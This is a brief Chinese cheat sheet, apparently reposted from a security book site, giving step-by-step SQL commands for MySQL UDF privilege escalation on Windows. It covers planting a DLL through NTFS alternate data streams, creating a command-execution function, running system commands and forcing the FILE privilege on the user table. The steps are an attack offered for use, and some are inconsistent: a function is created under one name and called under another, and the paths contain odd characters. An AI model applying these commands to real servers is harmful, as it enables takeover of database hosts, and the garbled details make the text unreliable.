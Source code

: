# UDF 手工提权辅助：

> 原文：[http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/1.html](http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/1.html)

```
select @@basedir;  #查看 mysql 安装目录
select 'It is dll' into dumpfile 'C:\。。lib::';  #利用 NTFS ADS 创建 lib 目录
select 'It is dll' into dumpfile 'C:\。。lib\plugin::';  #利用 NTFS ADS 创建 plugin 目录
select 0xUDFcode into dumpfile 'C:\phpstu\MySQL\lib\plugin\mstlab.dll';  #导出 udfcode，注意修改 udfcode
create function cmdshell returns string soname 'mstlab.dll';   #用 udf 创建 cmd 函数，shell,sys_exec,sys_eval
select shell('cmd','net user');     #执行 cmd 命令
show variables like '%plugin%';     #查看 plugin 路径 
```

## 小技巧：

```
1.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中 ImagePath 的值为 mysql 安装目录
2.my.ini 中 datadir 的值是数据存放目录
3.UPDATE user set File_priv ='Y';  flush privileges; 强制加 file 权限 
```

